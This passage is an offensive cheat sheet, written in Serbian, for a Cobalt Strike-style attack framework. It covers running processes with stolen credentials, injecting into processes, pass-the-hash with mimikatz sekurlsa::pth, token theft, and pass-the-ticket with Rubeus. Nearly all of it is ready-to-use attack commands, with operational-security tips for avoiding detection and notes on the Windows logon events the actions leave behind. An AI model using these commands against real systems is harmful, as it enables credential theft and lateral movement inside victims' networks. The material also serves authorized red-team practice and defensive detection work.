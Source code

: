 ## Покрени процес са новим креденцијалима
spawnas [domain\username] [password] [listener] #Урадите то из директоријума са приступом за читање као: cd C:\
## Као make_token, ово ће генерисати Windows догађај 4624: Налог је успешно пријављен, али са типом пријаве 2 (LOGON32_LOGON_INTERACTIVE). Детаљно ће бити наведен позиваоц (TargetUserName) и имитирани корисник (TargetOutboundUserName).

## Убаци у процес
inject [pid] [x64|x86] [listener]
## Са аспекта ОпСек-а: Не врши убацивање између различитих платформи осим ако заиста морате (нпр. x86 -> x64 или x64 -> x86).

## Пренеси хеш
## Овај процес измене захтева патчовање меморије LSASS што је акција високог ризика, захтева привилегије локалног администратора и није све то изводљиво ако је омогућено Заштићено Процесно Светло (PPL).
pth [pid] [arch] [DOMAIN\user] [NTLM hash]
pth [DOMAIN\user] [NTLM hash]

## Пренеси хеш преко mimikatz-a
mimikatz sekurlsa::pth /user:&#x3C;username> /domain:&#x3C;DOMAIN> /ntlm:&#x3C;NTLM HASH> /run:"powershell -w hidden"
## Без /run, mimikatz покреће cmd.exe, ако користите као корисник са Радном површином, видеће шел (ако користите као СИСТЕМ, све је у реду)
steal_token &#x3C;pid> #Укради токен из процеса који је креирао mimikatz

## Пренеси тикет
## Захтевај тикет
execute-assembly C:\path\Rubeus.exe asktgt /user:&#x3C;username> /domain:&#x3C;domain>
### Kreiranje nove sesije za prijavljivanje, zabeležite luid i processid
execute-assembly C:\putanja\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe
### Ubacite karticu u generisanu sesiju za prijavljivanje
execute-assembly C:\putanja\Rubeus.exe ptt /luid:0x92a8c /ticket:[...base64-ticket...]
### Na kraju, ukradite token iz tog novog procesa
steal_token &#x3C;pid>
